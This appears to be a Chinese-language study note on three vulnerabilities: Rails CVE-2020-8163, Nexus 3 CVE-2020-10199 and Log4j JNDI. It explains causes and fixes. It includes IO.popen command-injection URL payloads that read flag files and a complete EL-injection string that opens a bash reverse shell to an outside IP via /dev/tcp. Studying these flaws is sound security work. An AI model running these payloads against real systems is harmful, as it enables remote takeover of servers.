

# Ruby_on_Rails-CVE-2020-8163 远程执行漏洞

Ruby on Rails是一个web框架，使用ruby语言。

CVE-2020-8163 是 Ruby on Rails 框架的代码注入漏洞。因框架对`render`方法的`locals`参数未严格过滤，攻击者可构造恶意参数，借助`eval`执行注入代码，实现远程命令执行，如读取文件或控制服务器。

修复办法是：将locals参数转换为集合，然后减去rails框架中预留的危险方法名的集合，最后用正则表达式过滤locals参数变量名。

payload：

```
第一个 URL：IO.popen(%27find ../ -name "*flag*"%27).read，利用find命令在上级目录查找含 “flag” 的文件，定位 flag 位置。
第二个 URL：IO.popen(%27cat ../tmp/flag%27).read，通过cat命令读取已定位的../tmp/flag文件内容，获取 flag。
```

# CVE-2020-10199- Nexus 3

Nexus Repository Manager 3 是一款软件仓库。

这个漏洞的使用前提是攻击者必须拥有访问 Nexus 资源库实例的网络权限。

EL表达式用于简化访问数据和执行简单运算的操作，EL表达式执行的松散性，并且未正确过滤输入，刚好可以用来绕过正则表达式的过滤。攻击者通过构造恶意 EL 表达式注入，触发 Java 反射机制执行任意系统命令（如反弹 shell）。

```c++
''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')
```

下面逐步解析这个代码：

1. 获取`Runtime`类的`Class`对象：
   - `''.getClass().forName('java.lang.Runtime')`：`''`是一个空字符串对象，调用其`getClass()`方法获取`String`类的`Class`对象，然后使用`forName()`方法通过类的全限定名`java.lang.Runtime`获取`Runtime`类的`Class`对象。`Runtime`类在 Java 中代表运行时环境，提供了执行系统命令的功能。
2. 获取`exec()`方法：
   - `getMethods()[6]`：调用`Class`对象的`getMethods()`方法获取`Runtime`类的所有公共方法数组，然后通过索引`[6]`获取`exec()`方法（在不同的 Java 版本中，`exec()`方法在数组中的索引可能不同）。`exec()`方法用于执行系统命令。
3. 调用`exec()`方法执行命令：
   - `invoke(null)`：由于`exec()`是`Runtime`类的静态方法，所以调用`invoke()`方法时第一个参数为`null`，这样就可以获取`Runtime`类的实例并调用其`exec()`方法。
   - `exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')`：调用`exec()`方法执行反弹 shell 的命令，使目标主机主动连接到攻击者指定的 IP 地址和端口，从而让攻击者获得目标主机的控制权。

# Log4j（log for java）

Apache 是一个开源的 Web 服务器软件，广泛用于托管网站和应用。

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX守护进程。

在Log4j2中提供了**Lookups**机制，Lookups提供了一种在Log4j配置文件任意位置添加值的方法；而Lookups机制中，存在**JNDI**，在Log4j日志输出时，未对字符合法性进行严格的限制，造成JNDI协议加载的远程恶意脚本被执行，从而造成RCE。

**lookups**的主要功能就是提供另外一种方式以添加某些特殊的值到日志中

**JNDI**主要由两部分组成：Naming（命名）和Directory（目录），其中Naming是指将对象通过唯一标识符绑定到一个上下文Context，同时可通过唯一标识符查找获得对象，而Directory主要指将某一对象的属性绑定到Directory的上下文DirContext中，同时可通过名字获取对象的属性同时操作属性。

JNDI主要由JNDI API和JNDI SPI两部分组成，Java应用程序通过JNDI API访问目录服务，而JNDI API会调用Naming Manager实例化JNDI SPI，然后通过JNDI SPI去操作命名或目录服务其如LDAP， DNS，RMI等，JNDI内部已实现了对LDAP，DNS， RMI等目录服务器的操作API。

通过上面可以知道，JNDI可以实现对LADP、RMI等服务的操作，所以攻击者只需要构建一个LADP或RMI远程服务即可，让远程服务器返回恶意class。

**LADP**（Lightweight Directory Access Protocol）：顾名思义，一个轻量级的目录访问协议，用来访问目录服务（Directory Service）。那么LDAP协议作为一个访问协议，它在技术架构的表现上是一个CS架构模式：以IDaaS为例，IDaaS产品要解决的三个问题，都是会作为LDAP Client去访问LDAP Server（这里LDAP Server和Directory Service等同了），来实现功能

**RMI**（即Remote Method Invocation）是Java平台一个分布式应用程序的应用编程接口（API），它是Java Remote Method Protocol（JRMP）的实现，这个协议代表了Java语言特有的远程过程调用（RPC）系统。RMI允许一个对象通过一个网络在另外一个虚拟机上被调用，这些对象称之为远程对象。

**攻击者定义一个接口，在接口中定义数据库操作等。**
**攻击者携带lookup支持表达式进行请求服务器。**
**服务器通过log4j打印出请求信息。**
**log4j打印完成后会执行JNDI操作。**


解决办法：禁用使用JNDI或者升级